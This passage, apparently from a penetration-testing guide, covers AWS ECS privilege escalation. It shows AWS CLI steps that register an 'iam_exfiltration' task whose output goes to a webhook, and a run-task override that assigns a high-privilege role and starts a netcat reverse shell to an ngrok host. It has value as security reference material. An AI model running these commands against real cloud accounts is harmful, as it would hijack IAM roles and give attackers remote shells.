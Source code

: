 ```bash
  --task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
  --network-mode "awsvpc" \
  --cpu 256 \
  --memory 512 \
  --requires-compatibilities FARGATE \
  --container-definitions file://container-definition.json
  
# Check the webhook for a response

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1

```
{{#endtab }}

{{#endtabs }}

**Potential Impact:** Direct privesc to a different ECS role.

### `iam:PassRole`,`ecs:RunTask`
An attacker that has `iam:PassRole` and `ecs:RunTask` permissions can start a new ECS task with modified **execution role**, **task role** and container's **command** values.  The `ecs run-task` CLI command contains the `--overrides` flag which allows changing at runtime the `executionRoleArn`, `taskRoleArn` and container's `command` without touching the task definition.

The specified IAM roles for `taskRoleArn` and `executionRoleArn` must trust/allow to be assumed by the `ecs-tasks.amazonaws.com` in its trust policy.  

Also, the attacker needs to know:
- ECS cluster name 
- VPC Subnet
- Security group (If no security group is specified the default one will be used) 
- Task Definition Name and revision
- Name of the Container 

```bash
aws ecs run-task \
--cluster <cluster-name> \
--launch-type FARGATE \
--network-configuration "awsvpcConfiguration={subnets=[<subnet-id>],securityGroups=[<security-group-id>],assignPublicIp=ENABLED}" \
--task-definition <task-definition:revision> \
--overrides '
{
  "taskRoleArn": "arn:aws:iam::<redacted>:role/HighPrivilegedECSTaskRole",
  "containerOverrides": [
    {
      "name": <container-name>,
      "command": ["nc", "4.tcp.eu.ngrok.io", "18798", "-e", "/bin/bash"]
    }
  ]
}'
```
